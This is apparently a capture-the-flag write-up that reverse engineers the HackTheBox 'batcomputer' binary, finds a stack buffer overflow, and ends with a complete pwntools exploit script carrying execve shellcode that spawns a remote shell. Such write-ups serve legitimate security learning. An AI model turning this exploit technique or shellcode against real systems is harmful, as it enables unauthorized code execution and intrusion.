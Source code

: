 `File` command on the binary shows that it is stripped, meaning there are no debug symbols present. A stripped binary makes it more difficult to reverse engineer and the main function will be harder to find.

```assembly
# file batcomputer | tr "," "\n" 
batcomputer: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=497abb33ba7b0370d501f173facc947759aa4e22
 for GNU/Linux 3.2.0
 stripped
```

```assembly
# checksec batcomputer           
[*] '/root/Downloads/hackthebox/challenge/batcomputer/batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Because the binary is stripped we cant simply go to the main function. A simple work around is to look at the strings to see if we have encountered them before. In Ghidra, the strings window can be displayed by going to Window > Defined Strings. The screenshot above shows the string “Welcome to your Bat Computer.” selected. Following this string we land on what looks like our main function, FUN_001011ec (this may be different on your computer)




![image](https://user-images.githubusercontent.com/63084488/140466459-32617dda-1208-423c-aa91-4c77843b1d31.png)


In order to make analysis easier, the variables have been renamed to better reflect their purpose. One of these variables is user_choice whose value determines which message/prompt to show the user. On line 18 user_choice is compared with integer 1, if equal, the memory address of the nav_command buffer is printed using printf. If instead user_choice is 2, a password is requested and stored into user_pass using scanf. Line 24 clearly shows the password being compared to the string b4tp@$$w0rd!. If the passwords do not match the program terminates with exit(). If the passwords do match, however, the user is asked to provide their commands which are then stored within the nav_commands buffer, the same buffer whose address was printed in option 1. The string “Roger that!” is printed and the function loops back to the beginning. If user_choice are neither 1 nor 2, the binary prints a “Too bad” message and returns 0, finishing execution.

There is buffer overflow vulnerability within the read call on line 32. 0x89 (137) bytes are read from standard input into a buffer that is only allocated 76 bytes. This gives us enough space to overwrite the return address. We have to figure out the number of bytes between the start of our navigation commands input and the return address. We can do this using GDB.



exploit
```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    p = remote('docker.hackthebox.eu',31132)
    log.info("lets solve")

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```
